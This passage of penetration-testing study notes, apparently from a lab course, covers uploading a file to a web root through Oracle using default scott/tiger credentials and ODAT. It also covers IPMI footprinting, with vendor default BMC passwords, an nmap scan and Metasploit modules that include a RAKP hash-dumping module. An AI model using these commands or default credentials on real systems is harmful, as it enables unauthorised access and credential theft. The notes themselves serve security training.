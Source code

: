     # we can also try web shell upload
    # this needs target server to run a webserver

    echo "Oracle File Upload Test" > testing.txt

    ./odat.py utlfile -s 10.129.204.235 -d XE -U scott -P tiger --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt
    # if in Linux, we can test /var/www/html as webroot directory

    curl -X GET http://10.129.204.235/testing.txt
    # shows if file upload worked
    ```

* IPMI (Intelligent Platform Management Interface):

  * set of standard specifications for hardware-based host management systems

  * used to manage & monitor systems, even if they're powered off or unresponsive; uses a direct network connection to system hardware

  * systems that use IPMI protocol are called BMCs (Baseboard Management Controllers) - typically implemented as embedded ARM systems running Linux, connected directly to host motherboard

  * unique but default passwords are common, such as 'root:calvin' in Dell, 'Administrator:<8-char string with digits and uppercase letters>' in HP, and 'ADMIN:ADMIN' in Supermicro BMCs

  * footprinting:

    ```sh
    sudo nmap -sU --script ipmi-version -p 623 ilo.inlanfreight.local

    # we can use metasploit scanner modules
    msfconsole

    use auxiliary/scanner/ipmi/ipmi_version
    # set required options and run the scanner

    use auxiliary/scanner/ipmi/ipmi_dumphashes
    # module to retrieve IPMI hashes
    # this exploits a flaw in IPMI 2.0 RAKP protocol
    ```

## Remote Management Protocols
